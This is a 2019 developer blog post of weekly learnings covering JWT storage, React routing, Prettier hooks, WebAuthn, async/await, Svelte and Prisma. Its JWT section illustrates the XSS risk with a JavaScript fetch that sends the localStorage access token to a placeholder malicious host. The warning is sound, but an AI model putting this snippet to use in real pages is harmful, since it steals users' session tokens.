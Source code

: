 ```yaml
---
title: Weekly Learnings 23rd of May
date: 2019-05-23
---
```


## Storing JWT tokens in localStorage

Storing JWT tokens in `localStorage` is common but it is considered bad practice since it opens you up to exploitation if an XSS attack can be conducted. The token can be accessed if the attacker can execute malicious Javascript on your machine something like this.

```js
fetch('http://somemaliciousendpoint.com', {
  method: 'GET',
  headers: {
    Authorization: `Bearer ${localStorage.getItem('accessToken')}`,
  },
})
```

## Dynamic navigation in React

React is like the Microsoft for frontend developers. It simply isn't developer friendly and the library `react-router-dom` which allows us to build SPAs is no exception. There isn't any clear definitive way to dynamically route with it. However the two ways I think are good.

If you have wrapped your app with `<BrowserRouter></BrowserRouter>` component then the `history` object will automatically be passed to all your pages (navigatable components) and you can call `props.history.push('/route-i-want-to-go-to)` or for other components you will have to wrap them in the `withRouter` higher order component to pass the `history` object as a `prop`

If you use `<HashRouter></HashRouter>` component then you can navigate with `location.hash = 'route-i-want-to-go-to`

## A better way to format your project

```sh
yarn add prettier --dev --exact
yarn add pretty-quick husky --dev
```

Add this to your package.json

```js
{ "husky": { "hooks": { "pre-commit": "pretty-quick --staged" } } }
```

Now prettier will format only changed files when you `git-commit`

## The future of authentication

It has always been a pain point for developers to integrate authentication in their apps. Not only that but it has security issues e.g. password reuse and its annoying to enter usernames/passwords to authenticate. Introducing two very exciting developments

- **One tap sign on** by Google signs the user in through one click. Presumably the user still needs to maintain a Google account and they are already authed with their browser. There are a lot of requirements for this one but thus far it provides the best user and developer experience as an auth strategy.

- **webauthn** This one is the most exciting and even if this isn't the exact spec that gets widely used the idea should be what we are heading towards in the future. The idea is that we use biometrics like fingerprints and facial recognition to login to a website. We already can do this for our apps but now we are going to do it for websites.

## Async/await

This syntax

```js
try {
  const response = await someAsyncCallThatReturnsAPromise()
  const response1 = await someAsyncCallThatReturnsAPromise1()
  const response2 = await someAsyncCallThatReturnsAPromise2()
} catch(err) {console.error('Shouldn\'t have failed')}
```

has become the new standard for writing async applications due it is synchronous like nature that makes it easier for developers to reason with. However one annoying thing that we would have to do is wrap the calls in an async function.

```js{1,7}
(async () => {
  try {
    const response = await someAsyncCallThatReturnsAPromise()
      const response1 = await someAsyncCallThatReturnsAPromise1()
      const response2 = await someAsyncCallThatReturnsAPromise2()
  } catch(err) {console.error('Shouldn\'t have failed')}
})()
```

In order for that code to compile we had to wrap that in an IIFE with the async tag. This is because async/await functions always return a promise and to properly call them we also have to await them

```js{1}
await (async () => {
  try {
    const response = await someAsyncCallThatReturnsAPromise()
      const response1 = await someAsyncCallThatReturnsAPromise1()
      const response2 = await someAsyncCallThatReturnsAPromise2()
  } catch(err) {console.error('Shouldn\'t have failed')}
})()
```

Now the parent function has to do something similar. I like this approach because we are explicit about things. Although forgetting to await has caused a lot of bugs modern IDEs should tell you if a function returns a promise or not. 

## Svelte

Svelte looks really exciting and I look forward to developing a small real world application with it or build on top of their example. It reminds me of Ruby. Although it appears a lot of magic is going on and it abstracts away a lot of things it improves developer experience but in the past these sorts of languages have never gained momentum, e.g. pug and CoffeeScript. HTML, JS and CSS has seem to always win out in the end which is quite ominous for svelte. I think at the end the big tech companies are the ones that sway the industry if they don't adopt svelte then it won't ever reach critical mass. Therefore it is unlikely it will ever be able to compete with React in terms of industry adoption. Even Vue with its massive popularity still hasn't been widely adopted in the industry except for China.

## React + Apollo + Prisma

Still dislike React in terms of developer experience. I just don't have time and energy to detail for the low level things like updating the dam cache. Prisma is cool gives us free CRUD, pagination and filtering but I can see it struggling when we start to build real world applications due to its unopinionated nature like Express. This is fine for large companies with massive dev teams like I have said before but for the majority of companies and dev teams this wouldn't work for them.

## Misc stuff

* Insomnia is a nice replacement for Postman
* The difference between function `helloworld() {}` and `helloworld = () => {}` is that the first one will automatically hoist the function up so you can use it anywhere
* Ngrok can allow your local dev server to be accessible in the cloud but it is very slow
* Chrome has a lazy attribute for images now e.g. `<img loading="lazy">`
* We should use `Sets` more because they are faster and you can access them by value